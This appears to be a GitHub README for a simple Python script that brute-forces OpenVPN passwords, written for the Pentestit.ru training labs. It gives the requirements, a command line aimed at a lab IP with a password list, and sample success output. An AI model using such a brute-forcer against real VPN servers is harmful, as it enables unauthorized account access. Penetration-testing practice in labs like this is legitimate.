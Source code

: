 # OpenVPN-Brute-Forcer
A very simple Password brute forcer for openvpn.

This was made for the Pentestit.ru v11 labs to learn bruteforce techniques.

It was a very quick script to acheive an aim so no apologies for the code.

REQUIREMENTS:

Python of course.
Server.conf/ovpn from the comprimised server
openvpn username
CA cert from the comprimised server: include in the server.conf or seperated into a crt file then reference

NOTE: Use the attached server.conf and update the crt path with the extracted ca certificate or edit your own to match i.e: Remove the auth-user-path line, comment out the remote lines and move the ca certificate into a seperate file from the server.conf file then execute.


SCRIPT EXECUTION:
```bash
python brute_openvpn.py --host 192.168.101.10 --config /home/scripts/python/server.conf --user xxxxxx --passlist /usr/share/john/password.lst
```

RESULT:
```ruby
[+] SUCCESS! command = /usr/sbin/openvpn --remote 192.168.101.10 --config /home/scripts/python/server.conf --auth-user-pass /tmp/sb_test/tmp4HdLuM
[+] Password: ***REMOVED***
[+] VPN Process stopped and temp files removed
Terminated
```

Please feel free to update.
